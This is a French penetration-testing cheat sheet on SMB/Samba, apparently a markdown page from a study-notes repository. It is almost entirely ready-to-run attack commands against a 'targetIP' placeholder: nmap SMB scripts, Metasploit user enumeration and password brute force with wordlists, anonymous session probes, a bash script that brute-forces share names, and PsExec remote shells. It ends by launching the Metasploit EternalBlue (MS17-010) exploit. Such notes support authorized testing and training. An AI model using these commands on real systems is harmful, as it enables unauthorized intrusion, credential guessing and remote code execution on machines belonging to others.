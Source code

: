 # 📁 Énumération SMB/Samba

[← Retour à la table des matières](../README.md)

## Port par défaut : 445

## Nmap Scripts SMB
```bash
nmap -p445 --script smb-protocols targetIP
nmap -p445 --script smb-security-mode targetIP
nmap -p445 --script smb-enum-sessions targetIP
nmap -p445 --script smb-enum-shares targetIP
nmap --script smb-os-discovery.nse -p 445 targetIP
```

## Metasploit Modules
```bash
use scanner/smb/smb_enumusers
use scanner/smb/smb_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_version
```

## Sessions anonymes
```bash
smbclient -L targetIP -N
rpcclient -U "" -N targetIP
```

## Enum4linux
```bash
enum4linux -a targetIP
```

## Script de bruteforce des shares
```bash
#!/bin/bash
TARGET="targetIP"
WORDLIST="/root/Desktop/wordlists/shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```

## SMB avec PsExec (nécessite des credentials légitimes)

### Test de login SMB
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

### PsExec avec Impacket
```bash
# Exécution directe
psexec.py administrator@targetIP cmd.exe
```

### PsExec avec Metasploit
```bash
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
# Obtention d'un meterpreter
```

## MS17-010 EternalBlue

### Détection de la vulnérabilité
```bash
# Nmap script de détection
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Scanner Metasploit
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation EternalBlue
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run